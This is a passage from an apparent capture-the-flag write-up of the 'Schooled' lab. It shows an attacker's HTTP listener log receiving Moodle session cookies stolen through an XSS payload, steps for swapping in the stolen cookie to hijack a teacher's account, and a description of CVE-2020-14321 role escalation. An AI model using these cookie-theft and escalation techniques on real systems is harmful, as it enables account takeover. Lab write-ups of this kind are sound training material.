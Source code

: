 ```text
┌──(root💀kali)-[~/htb/schooled]
└─# python3 -m http.server 80                                                                                    
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.227 - - [21/Sep/2021 22:49:40] code 404, message File not found
10.10.14.227 - - [21/Sep/2021 22:49:40] "GET /xss.php?MoodleSession=12obsgldak4hb1bcbbhvig74v9 HTTP/1.1" 404 -
10.10.10.234 - - [21/Sep/2021 22:50:27] code 404, message File not found
10.10.10.234 - - [21/Sep/2021 22:50:27] "GET /xss.php?MoodleSession=er9oiueidahouo2msndua7b91i HTTP/1.1" 404 -
10.10.10.234 - - [21/Sep/2021 22:52:31] code 404, message File not found
10.10.10.234 - - [21/Sep/2021 22:52:31] "GET /xss.php?MoodleSession=aul526ect0noc7f97he3oft497 HTTP/1.1" 404 -
10.10.10.234 - - [21/Sep/2021 22:54:35] code 404, message File not found
10.10.10.234 - - [21/Sep/2021 22:54:35] "GET /xss.php?MoodleSession=bf0gak8g91dh41cgit3fonv4qu HTTP/1.1" 404 -
```

We can take the last cookie and open the dev tools in Firefox, go to Storage Inspecter, on the Cookies section we replace our user cookie with this new one:

![schooled-cookie](/assets/images/2021-09-21-22-55-43.png)

Hit refresh and we are now logged in as the teacher Manuel:

![schooled-teacher](/assets/images/2021-09-21-22-56-31.png)

## CVE-2020-14321

A look around the teacher profile didn't help, but a Google for privilege escalation points me back to the same Github repository, this time for [CVE-2020-14321](https://github.com/HoangKien1020/CVE-2020-14321).
This exploit works by intercepting the enrolment of a new user with manager role on to the Maths course, and changing the ID to Manuel the teacher I'm logged in as. The result is Manuel now has the manager role.
